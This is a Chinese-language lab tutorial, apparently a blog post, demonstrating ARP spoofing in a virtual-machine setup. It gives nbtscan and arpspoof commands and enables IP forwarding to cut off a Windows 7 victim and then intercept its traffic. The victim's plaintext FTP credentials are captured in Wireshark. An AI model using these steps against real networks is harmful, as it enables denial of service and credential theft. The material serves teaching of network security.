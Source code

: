 ```yaml
---
title: Arp 中间人攻击
date: 2022-06-06
categories:
        - Technology
tags:
        - Arp
        - Linux
        - Vmware
        - Network Security
---
```


# Arp 中间人攻击

## 准备

Linux 虚拟机（模拟攻击机）

Windows 7 虚拟机（模拟受害机）

Windows 本地环境

## 配置 kali



## 更新 Linux 软件列表

```sh
apt-get update
```

安装 dsniff 工具

```sh
apt-get install dsniff
```

## 使目标机器断网

查看内网 ip

```sh
ifconfig
```

扫描内网网段

```sh
nbtscan -r 192.168.54.0/24
```

![扫描内网网段](https://image.yxzi.xyz/image/2022/06/07/扫描内网网段.png)

可以看到探测到了 ip 为 192.168.54.249、名为 WIN7-2022BXTBSK 

HA受害机。

开启 arp 欺骗攻击

```sh
arpspoof -i eth0 -t 192.168.54.249 192.168.54.76
```

其中，`-i` 指定攻击机的某一张网卡来进行攻击，

`-t`第一个 ip 指定受害机的ip，第二个 ip 为内网默认网关（一般

来说是路由器）的 ip。

第一个参数可通过扫描确定，第二个参数可在攻击机中输入`netstat -rn`来查看：

![查看内网默网关](https://image.yxzi.xyz/image/2022/06/07/查看内网默认网关.png)

如图已经开始 arp 攻击了：

![开始攻击](https://image.yxzi.xyz/image/2022/06/07/开始攻击.png)

这时候我们就会发现受害机已经 ping 不通了：

![ping不通](https://image.yxzi.xyz/image/2022/06/07/ping不通.png)

至此，我们已经完成了 arp 欺骗的第一个目的：使目标机器断网。

并且开启本地防火墙并不能拦截我们的 arp 欺骗。

## 嗅探受害机的网络数据包

接下来，我们开始进行第二个阶段的攻击，嗅探受害机的网络数据包

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

原本的0代表着不开启路由转发功能。

此时回到受害机可以看到网络连接恢复了正常也就是我们攻击机的路由转发功能已成功开启。

此时受害机所有的网络请求包都会流经攻击机！

## wireshark

打开流量分析神器 wireshark 并选择刚刚进行 arp 欺骗时所选择的那张网卡：

![选择网卡](https://image.yxzi.xyz/image/2022/06/07/选择网卡.png)

## 开始抓包

![开始抓包](http://image.yxzi.xyz/image/2022/06/07/开始抓包.png)

1. 在受害机输入地址：ftp://192.168.54.4:21。

2. 输入账号和密码，登录成功后返回到攻击机。

3. 抓包完成暂停 wireshark 抓包。

4. 过滤其他协议的数据包，只显示 FTP 数据包，

5. 查看数据看包，存储着我们刚刚输入的明文用户名、密码。

![查看数据包](https://image.yxzi.xyz/image/2022/06/07/查看数据包.png)



至此，我们成功模拟了一次 arp 欺骗攻击，并成功达到了让受害机断网、嗅探目标主机网络数据包。